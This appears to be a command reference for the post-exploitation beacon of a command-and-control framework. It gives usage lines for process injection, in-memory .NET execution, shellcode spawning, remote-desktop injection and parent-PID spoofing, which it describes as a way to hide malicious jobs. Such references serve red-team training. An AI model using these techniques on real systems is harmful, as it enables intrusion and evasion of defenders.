 * **desktop:** Inject a VNC server on the beacon process and get a remote desktop view of the target.
* **desktop Usage:**

```
desktop [pid] [x86|x64] [high|low]
```

i.e.

```
desktop 592 x64 high
desktop 8841 x86 low
```

:exclamation: The high/low arguments specify the quality of the session.

* **dllinject/dllload:** Inject a reflective dll into a process/Load a dll on current process.
* **execute-assembly:** Loads and executes a .NET compiled assembly executable completely on memory.
* **execute-assembly Usage:**

```
execute-assembly [/path/to/local/.NET] [arguments]
```

* **inject:** Inject a beacon payload on a specified process and spawn a new beacon session under it's security context.
* **inject Usage:**

```
inject [pid] [x86|x64] [listener]
```

i.e.

```
inject 9942 x64 Lab-SMB
inject 429 x86 Lab-HTTPS
...
```

* **kerberos\*:** Manipulate kerberos tickets.
* **ppid:** Spoofs the parent process of beacon for any post-exploitation child spawning job. That way we can hide our malicious post-exploitation jobs.
* **psinject:** Inject on a specified process and execute a command using powerpick's functionality.\
  :notebook: Powershell modules imported with **powershell-import** are available.
* **runu:** Run a command under a spoofed process PID.
* **shinject:** Inject shellcode into another a running process.
* **shspawn:** Create a new process and inject shellcode into it.
* **shspawn Usage:**

```
shspawn [x86|x64] [/path/to/my.bin]
```

i.e.

```
shspawn x64 /opt/shellcode/malicious.bin
```
